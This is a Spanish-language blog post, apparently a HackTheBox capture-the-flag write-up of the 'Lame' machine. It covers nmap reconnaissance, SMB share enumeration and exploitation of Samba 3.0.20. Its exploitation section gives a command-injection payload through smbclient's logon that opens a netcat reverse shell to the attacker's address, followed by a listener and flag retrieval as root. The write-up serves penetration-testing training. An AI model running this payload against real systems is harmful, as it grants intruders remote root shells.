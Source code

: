 ```yaml
---
layout:   post
title:    "Write Up Lame."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy, Linux, SMB, Reverse-Shell, CVE, RCE, eJPT, Write-Up-Machine, Starting-Point]  
---
```

![list](/assets/img/lame/Captura de pantalla (139).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.3 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/lame/Kali-2022-09-09-21-25-44.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p21,22,139,445,3632 -sV -sC 10.10.10.3 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/lame/Kali-2022-09-09-21-27-12.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Buscamos la version vunerable de FTP `vsftpd 2.3.4` en Google.

Busacamos en searchsploit `Samba 3.0.20` una vulnerabilidad asociada a la version 

de samba.

![list](/assets/img/lame/Kali-2022-09-09-22-14-21.png){:.lead width="800" height="100" loading="lazy"}

El exploit esta escrito en ruby pero lo podenos buscar en google en python o bash. 
{:.note}



En esta fase analizaremos la información recopilada en la fase anterior y el 

descubrimiento de las vulnerabilidades, ademas del reconoocimiento web.

Por lo  que podemos ver el script  tarata de autenticar un usualio con `/=nohup` 

Listamos los recursos con smbclient. 

![list](/assets/img/lame/Kali-2022-09-09-22-11-03.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L //10.10.10.3 -N
```
ingrsamos al recurso compartido en la carpeta /tmp .

![list](/assets/img/lame/Kali-2022-09-09-22-11-42.png){:.lead width="800" height="100" loading="lazy"}

## Explotacion

Por lo que deducimos en el script, aki podemos ejecutar comando y usaremos logon para 

ejecutar una reverse shell. 

![list](/assets/img/lame/Kali-2022-09-09-22-16-24.png){:.lead width="800" height="100" loading="lazy"}

```bash
logon "/=nohup nc -c sh 10.10.14.17 443"
```
En otro terminal debe estar a la ecucha un listener es decir `nc -lvnp 443`. 
{:.note}

```bash
root@lame:/# find -name user.txt | xargs cat
```
***
## Escalacion de privileguios

Lame no tiene escalacion de privilegios ya que ya somos root ,pero podemos bucar la flag 

con el siguente comado.

![list](/assets/img/lame/Kali-2022-09-09-22-33-59.png){:.lead width="800" height="100" loading="lazy"}

```bash
root@lame:/# find -name root.txt | xargs cat
```
***
```bash
🎉 Felicitaciones ya has comprometido Lame de HackTheBox 🎉
```
{:.centered}
***
Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}